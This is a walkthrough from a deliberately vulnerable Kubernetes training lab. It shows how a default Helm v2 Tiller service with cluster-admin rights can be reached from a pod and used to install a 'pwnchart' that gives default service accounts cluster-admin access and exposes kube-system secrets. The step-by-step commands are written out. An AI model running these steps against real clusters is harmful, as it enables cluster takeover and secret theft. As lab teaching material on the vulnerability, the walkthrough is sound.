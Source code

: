 # Helm v2 tiller to PwN the cluster

## Scenario Information

Helm is a package manager for Kubernetes. It's like `apt-get` for ubuntu. In this scenario, we will see the older version of helm (version 2), tiller service RBAC default setup to gain access to the completed cluster.

* To get started with the scenario, run the following command
  
```bash
kubectl run --rm --restart=Never -it --image=madhuakula/k8s-goat-helm-tiller -- bash
```

![Scenario 9 welcome](images/sc-9-1.png)

## Scenario Solution

* By default helm version 2 tiller deployment has RBAC with full cluster administrator privileges
* So the default installation is in `kube-system` namespace with service name `tiller-deploy` and port `44134` exposed to `0.0.0.0`. So we can verify by running telnet command

```bash
telnet tiller-deploy.kube-system 44134
```

![Scenario 9 telnet](images/sc-9-2.png)

* Now, we are able to connect to the tiller service port. We can use the helm binary to perform operations and talk to tiller service

```bash
helm --host tiller-deploy.kube-system:44134 version
```

![Scenario 9 telnet](images/sc-9-3.png)

* Let's try if we can get Kubernetes secrets from the cluster from `kube-system` namespace

```bash
kubectl get secrets -n kube-system
```

![Scenario 9 before secrets](images/sc-9-4.png)

* Now we can create our own helm chart to give permission to default service account full cluster admin access, as by default the current pod deployed in default namespace which has default service account

```bash
helm --host tiller-deploy.kube-system:44134 install /pwnchart
```

![Scenario 9 deploy chart](images/sc-9-5.png)

* Now the `pwnchart` has been deployed, it has given all the default service accounts cluster admin access. Hence let's try getting the `kube-system` namespace secrets again

```bash
kubectl get secrets -n kube-system
```

![Scenario 9 deploy chart](images/sc-9-6.png)

> This scenario varies how the tiller deployment has been performed, sometimes admins deploy tiller to specific namespace with specific privilege. Also from Helm version 3 there is no tiller service to mitigate such vulnerabilities

## Miscellaneous

* [https://engineering.bitnami.com/articles/helm-security.html](https://engineering.bitnami.com/articles/helm-security.html)
